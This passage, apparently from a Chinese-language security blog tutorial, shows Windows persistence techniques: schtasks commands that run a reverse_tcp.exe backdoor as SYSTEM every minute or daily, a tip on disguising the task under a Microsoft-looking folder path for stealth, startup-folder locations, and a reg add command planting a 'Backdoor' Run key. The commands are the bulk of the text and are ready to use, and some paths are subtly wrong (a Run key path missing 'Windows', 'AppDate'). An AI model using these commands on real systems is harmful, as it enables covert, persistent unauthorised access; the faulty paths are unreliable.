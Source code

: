 该命令通过创建名为Backdoor的计划任务，每天早上8点以SYSTEM权限执行一遍隐藏的shell脚本

注意：以 SYSTEM权限运行服务，就要有管理员权限

执行下列命令，创建一个每60秒执行的计划任务

```
schtasks /Create /TN Backdoor /SC minute /MO 1 /TR c:\windows\system32\reverse_tcp.exe /RU System /F
```

关于计划任务管理库：windows下计算机管理中，计划任务管理库内的计划任务是以类似文件夹中文件的形式存在的，为了提高计划任务的隐蔽性，我们最好是遵守这个规则

```shell
schtasks /Create /TN \Microsoft\Windows\AppTask\AppRun /SC daily /ST 08:00 /MO 1 /TR c:\Windows\system32\reverse_tcp.exe /RU System /F 
```

这条命令将在\Microsoft\Windows\AppTask路径下创建一个名为AppRun的后门程序

![apptaskapprun](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/apptaskapprun.png)

### 启动项\注册表键后门

通过将后门程序添加到系统自启动文件夹或利用注册表键来进行权限持久化

+ 系统自启动文件

  ```shell
  #位于以下文件夹的程序在指定用户登陆时启动
  C:\Users\<username>\AppDate\Roaming\Microsoft\Windows\Start
  C:\Users\<username>\AppDate\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
  #位于以下目录中的程序将在所有用户登陆时启动
  C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  ```

  利用该方法，只需要把后门程序丢到对应的目录下就行了

+ 注册表运行键（Run Keys）

  当用户登录时，系统会依次检查位于注册表运行键 (Run Keys)中的程序，并在用户登录的上下文中启动。Windows系统默认创建以下运行键，修改HKEY_LOCAL_MACHINE下的运行键需要拥有管理员权限

  ```shell
  #用户级的runkeys(当前用户登录时启动)
  \HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
  \HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
  #系统级的runkeys(所有用户登录时都会启动)
  \HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  \HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
  \HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run
  \HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\RunOnce
  ```

  注意：由于windows版本的不同，注册表也不一定相同，例如RunServicesOnce就已经在较高版本中进行废弃

  执行以下命令，在注册表运行键中添加一个名为"Backdoor"的键，并将将键指向后门程序的绝对路径
  
  ```shell
  reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Windows\System32\reverse_tcp.exe"
  ```
  